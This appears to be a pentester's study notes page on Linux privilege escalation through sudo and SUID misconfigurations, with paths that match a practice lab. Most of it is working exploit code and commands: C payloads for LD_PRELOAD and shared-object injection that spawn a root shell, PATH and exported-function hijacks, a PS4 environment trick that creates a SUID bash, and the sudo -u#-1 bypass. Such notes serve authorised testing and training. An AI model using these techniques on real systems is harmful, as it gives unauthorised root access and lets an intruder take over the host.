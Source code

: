 ```yaml
---
title: SUDO / SUID
updated: 2023-11-03 11:18:34Z
created: 2023-10-14 12:46:52Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


### SUDO (shell escaping)

1.  `sudo -l`  
    GTFOBins for exploit
2.  If sudo command is unique (like being able to do vim or look at man pages, try doing a bash escape by typing `!/bin/bash`

### SUDO (pwfeedback)

1.  `sudo -V`  
    If version is **< 1.8.26** , **[CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)**  
    OR
2.  `sudo <any command>`  
    Check if \* are being displayed when you type password

### SUDO LD\_PRELOAD

1.  Open a text editor and type:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2.  Save the file as **x.c**
3.  In command prompt type:  
    `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4.  In command prompt type:  
    `sudo LD_PRELOAD=/tmp/x.so apache2`

### SUDO !root /bin/bash

1.  `sudo -u#-1 /bin/bash`  
    Check any results in GTFOBins for SUID

* * *

## SUID

1.  `find / -perm -u=s -type f 2>/dev/null`
    
2.  `find / -type f -perm -04000 -ls 2>/dev/null | grep suid`  
    Look for binaries with s permission eg. \-rw**s**r-xr-x
    
3.  Look for any strings in the binaries  
	`strings /path/to/binary | tac`
	
For **/usr/local/bin/suid-so** - Follow Exploit **SUID Shared Object Injection**  
For **/usr/local/bin/suid-env** - Follow Exploit **SUID Environment Variables #1**

### SUID (Shared Object Injection)

3.  `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`  
    Notice the file location where it reports no such file, and we can replace the missing file with malicious payload

**Exploit**:

1.  `mkdir /home/<user>/.config`
2.  `vi /home/<user>/.config/libcalc.c`

```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

3.  Save the file as **libcalc.c**
4.  In command prompt type:  
    `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`  
    Re-run command:
5.  `/usr/local/bin/suid-so`

### SUID (Environment Variables #1)

1.  `strings /usr/local/bin/suid-env`
2.  From the output, notice the functions used by the binary.
3.  If function is "**service**" (**eg. service apache2 start**)
4.  Create **service.c** file  
    `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
5.  `gcc /tmp/service.c -o /tmp/service`
6.  `export PATH=/tmp:$PATH`
7.  Execute: `/usr/local/bin/suid-env`

### SUID (Environment Variables #2)

1.  `strings /usr/local/bin/suid-env2`

Option1:

1.  If function is **/usr/bin/service** (**eg /usr/bin/service apache2 start**)
2.  `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
3.  `export -f /usr/sbin/service`
4.  Execute: `/usr/local/bin/suid-env2`

Option2:

1.  If function is **/usr/bin/service** (**eg /usr/bin/service apache2 start**)
2.  `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

### SUID (Symlinks)

1.  `dpkg -l`  
    Look for vulnerable packages(like nginx - CVE-2016-1247)